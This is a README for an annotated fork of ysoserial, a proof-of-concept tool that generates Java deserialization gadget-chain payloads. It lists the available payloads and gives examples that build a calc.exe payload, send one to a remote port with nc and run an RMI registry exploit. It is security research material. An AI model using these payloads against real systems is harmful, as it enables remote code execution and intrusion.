 # yso项目分析与注释

对该项目下的每个利用链进行分析并进行简单注释理解，方便后续不同链之间的拆解与重新组合。

# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
十月 25, 2022 10:10:32 上午 org.reflections.Reflections scan
信息: Reflections took 134 ms to scan 1 urls, producing 19 keys and 187 values
     Payload              Authors                                Dependencies
     -------              -------                                ------------
     AspectJWeaver        @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1               @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure              @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils2                                           commons-beanutils:1.9.2
     CommonsBeanutils3                                           commons-beanutils:1.8.3, commons-collections:3.1
     CommonsCollections1  @frohoff                               commons-collections:3.1
     CommonsCollections10 @ph4nt0mer                             commons-collections:3.1
     CommonsCollections11 @ph4nt0mer
     CommonsCollections12 @ph4nt0mer                             commons-collections:3.1
     CommonsCollections2  @frohoff                               commons-collections4:4.0
     CommonsCollections3  @frohoff                               commons-collections:3.1
     CommonsCollections4  @frohoff                               commons-collections4:4.0
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     CommonsCollections8                                         commons-collections4:4.0
     CommonsCollections9  @ph4nt0mer                             commons-collections:3.1
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1              @frohoff                               groovy:2.3.9
     Hibernate1           @mbechler
     Hibernate2           @mbechler
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient           @mbechler
     JRMPListener         @mbechler
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21              @frohoff
     Jdk8u20
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1        @matthias_kaiser                       js:1.7R2
     MozillaRhino2        @_tint0                                js:1.7R2
     Myfaces1             @mbechler
     Myfaces2             @mbechler
     ROME                 @mbechler                              rome:1.0
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS               @gebl
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
  ```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from
GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also

* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on
  vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization
  formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
